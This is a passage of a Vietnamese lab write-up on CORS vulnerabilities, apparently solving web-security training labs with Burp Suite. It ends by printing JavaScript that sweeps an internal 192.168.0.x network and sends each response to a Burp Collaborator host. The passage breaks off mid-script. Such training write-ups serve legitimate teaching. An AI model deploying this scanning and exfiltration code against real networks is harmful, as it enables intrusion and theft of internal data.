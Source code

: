 ![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocol_exploitserver.png?raw=true)

Sau đó Store payload Deliver to Victim để gửi payload sang trang web mà mình exploit



Access log để hiện những data mà mình leak được thông qua tên miền phụ như sau :

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocal_accesslog.png?raw=true)

Truy cập decoder của Burp để decoder url và lấy apikey để submit

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocol_decoder.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocal_submit.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocal_solve.png?raw=true)

### Lab: CORS vulnerability with internal network pivot attack

Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các nguồn gốc của mạng nội bộ.

Lab này yêu cầu nhiều bước để hoàn thành. Để giải quyếtlab, hãy tạo một số JavaScript để định vị điểm cuối trên mạng cục bộ (192.168.0.0/24, cổng 8080) mà sau đó bạn có thể sử dụng để xác định và tạo một cuộc tấn công dựa trên CORS để xóa người dùng. Lab được giải quyết khi bạn xóa người dùng Carlos.
  
  
Trường hợp mà bài lab này đưa ra đó chính là chúng ta phải tìm được vị trí của 1 private IP mà website này tin tưởng và dựa vào đó để tấn công và xóa đi người dùng, 

Đây là 1 bài cấp độ Expert có nghĩa là 1 bài cực kỳ phức tạp và level cao. Tuy nhiên chúng ta đã biết được cách thức khai thác là gì nên bây giờ sẽ follow theo hướng dẫn và exploit nó thôi.


##### Bước đầu tiên: quét mạng nội bộ

Đầu tiên việc chúng ta cần làm là quét mạng nội bộ để tìm ra được địa chỉ IP, để tìm được thì chúng ta cần sự hỗ trợ của Burp Suite Collaborator Client để poll những response leak được về, đoạn payload dưới đây sẽ quét từ http://192.168.0.1 - http://192.168.0.255 và tìm xem địa chỉ nào phù hợp 

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_findIP_exploit.png?raw=true)

```
<script>
var q = [], collaboratorURL = 'http://bbq6iwl2yh0xqnyyqkm0r8w9g0mqaf.burpcollaborator.net';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
```